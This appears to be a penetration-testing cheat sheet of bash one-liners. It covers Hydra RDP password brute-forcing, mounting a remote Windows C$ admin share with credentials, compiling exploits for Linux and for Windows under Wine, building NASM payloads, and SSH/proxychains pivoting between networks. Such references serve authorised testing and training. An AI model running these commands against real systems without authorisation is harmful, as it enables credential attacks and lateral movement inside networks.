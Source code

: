 ### Get PIDs of process
{% highlight bash %}
fuser -nv tcp 80 
fuser -k -n tcp 80
{% endhighlight %}

### Hydra rdp Bruteforce
{% highlight bash %}
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp
{% endhighlight %}

### Mount Remote Windows Share
{% highlight bash %}
smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
{% endhighlight %}

### Compiling Exploit in Kali
{% highlight bash %}
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
{% endhighlight %}

### Compiling Windows Exploits on Kali
{% highlight bash %}
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
{% endhighlight %}

### NASM Commands
{% highlight bash %}
nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
{% endhighlight %}

### SSH Pivoting 
{% highlight bash %}
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
{% endhighlight %}

### SSH Pivoting from One Network to Another
{% highlight bash %}
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
{% endhighlight %}
